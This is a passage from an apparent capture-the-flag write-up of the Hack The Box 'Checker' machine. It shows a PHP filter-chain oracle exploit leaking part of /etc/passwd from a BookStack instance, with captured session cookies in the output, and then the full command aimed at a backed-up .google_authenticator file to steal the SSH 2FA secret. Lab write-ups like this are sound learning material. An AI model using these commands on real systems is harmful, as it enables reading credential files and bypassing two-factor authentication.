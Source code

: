 ```
[*] Additionnal headers used : {"X-CSRF-TOKEN": "5dcVWGgliR7TGbVjztGwah5FDaXX4IaYRSwmXRXA", "Cookie": "XSRF-TOKEN=eyJpdiI6IjEzNVNHMWF3NEVtU00zSDlMYkpGVnc9PSIsInZhbHVlIjoiRVFJbWZJTEtRd3ZhNno5NDA1NmdFOXVPUjhwaWRFYUdTdFVFTDZvRitOdVl0cHNpMWZlUU4zMHNpQ1ZiVDR5M0ZYZ00xQlJQYnRyRCtwUlJzR0xYbWZFL3VWN1RHWkRYZGI1TGcrVk5adXJhRHpiODN5a0tvcHE4VFROOHV6NVYiLCJtYWMiOiI5NmRkNzRmY2I2ZTNlYTFjOTU0Yzk0YWYzODc5ZWNlNmQ0ZDQ1NjE5MDYzN2EzMmIyMzYwZDdlMGY4NmFmZWYzIiwidGFnIjoiIn0%3D;bookstack_session=eyJpdiI6IlRCeXA5YXBvbE0wdkVlb01uU0ZPWVE9PSIsInZhbHVlIjoiU0g1cGhLY0hhQkVzbEh1SGg1amt3dzY0NTg4STNweVJmZW1EUm5DV0k4ZGp3YmIxZmphSlE0QjVMSWZyNkJhWWxhOHEvZk5zbzR1VU40cnB5RCs5RzM5NWQ3TWpydHRRWllRTWNRYWYxMnJQTm1lM3lZN2JOWU5RZUhmUjBoV3giLCJtYWMiOiI3MzIyMmE3YWI5NTE2ODc2OTkyNTA4MDI2NmQ3OWM0YzllZmRlNDhhMGZmZTI4MTJhZDE3MTYyOTA1ZWJiYmRkIiwidGFnIjoiIn0%3D", "Content-Type": "application/x-www-form-urlencoded"}
  [*] File leak gracefully stopped.
[+] File /etc/passwd was partially leaked
cm9vdDp4OjA6MDpyb290Oi9yb2
b'root:x:0:0:root:/ro'
[*] Info logged in : loot.txt
```

Since this script relies heavily on false positives for brute force cracking, it will be very slow.

When I check the books to find something useful, we can found 
![](images/Pasted%20image%2020250728141059.png)
This script may indicate that the` /home `directory on the target is `recurisvely` being backed up to `/backup/home_backup`.
And remember when we want to ssh connect account `reader`, it needs the `2FA` code.
`https://ubuntu.com/tutorials/configure-ssh-2fa?ref=benheater.com#3-configuring-authentication`
This article shows us how to set up that function
This page suggests there should be `.google_authenticator` file local to the user's home directory

So we need to `LFI` the file of `/backup/home_backup/home/reader/.google_authenticator`
That will be a very long time :(
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Checker/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py \
--target 'http://checker.htb/ajax/page/8/save-draft' \
--file '/backup/home_backup/home/reader/.google_authenticator' \
--verb PUT \
--parameter html \
--proxy http://127.0.0.1:8080 \
--log loot.txt \
```
